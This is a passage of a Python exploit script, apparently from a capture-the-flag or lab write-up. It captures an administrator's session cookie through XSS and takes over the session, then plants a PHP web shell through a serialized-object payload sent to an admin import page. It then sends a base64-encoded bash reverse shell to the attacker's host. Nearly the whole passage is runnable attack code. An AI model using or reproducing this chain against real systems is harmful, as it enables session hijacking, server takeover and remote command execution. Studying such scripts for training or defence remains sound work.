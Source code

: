 ```py
    global admin_cookie
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print("[+] The Admin Token is: " + admin_cookie + " !! [+]")
    admin_cookie = admin_cookie.split("=")[1]
    
# Setting the admin token to the session
def changeCookies(rhost,admin_cookie):
    print("[+] Let's Become Admin !! [+]")
    r.cookies['PHPSESSID'] = admin_cookie
    print("[+] Cookie Changed !! [+]")

# Exploit used to generate the serialized data
'''
<?php
class Log {
  public $f = '/var/www/html/0x4rt3mis.php';
  public $m = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new Log);
?>
'''

# Plant the malicious php
def plantPHP(rhost):
    print("[+] Let's send the malicious data !! [+]")
    url = "http://%s:80/admin/import_user.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"userobj": "O:3:\"Log\":2:{s:1:\"f\";s:27:\"/var/www/html/0x4rt3mis.php\";s:1:\"m\";s:34:\"<?php system($_REQUEST[\"cmd\"]); ?>\";}"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Payload Sent, php planted !! [+]")
    
# Get reeeeeverserereerre shelllll
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/0x4rt3mis.php?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
```